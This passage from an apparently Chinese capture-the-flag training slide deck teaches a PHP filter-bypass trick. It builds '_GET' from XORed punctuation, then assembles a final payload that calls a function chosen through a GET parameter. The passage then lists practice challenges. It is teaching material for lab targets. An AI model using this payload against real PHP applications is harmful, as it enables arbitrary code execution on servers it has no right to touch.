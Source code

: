 - `?`代表匹配一个字符
- `表示执行命令
- `"`对特殊字符串进行解析

    ```"`{{{"^"?<>/";``` == ```_GET```

---

#### 第二步 获取 _GET 参数

```${$_}[_]();``` == ```$_GET[_]()```

#### 第三步 获取参数

```$_=getFlag```

---

#### 最终payload

```code=$_="`{{{"^"?<>/";${$_}[_]();&_=getFlag```

---

### 本周训练题

- [练习1 PHP入门](http://81.70.159.127/Web1/index.php)
- [练习2 今天睡够了么？](http://81.70.159.127/Web2/index.php)
- [练习3 havefun,funhash](http://81.70.159.127/Web3/index.php)
- [练习4 休息一下吧打工人](http://81.70.159.127/Web4/index.html)
- [练习5 绕过练习](http://81.70.159.127/Web4/index.html)
- [练习6 多吃几个 备注:源码在课件压缩包里](http://81.70.159.127/Web4/index.html)

---

#  <!-- fit --> 谢谢大家！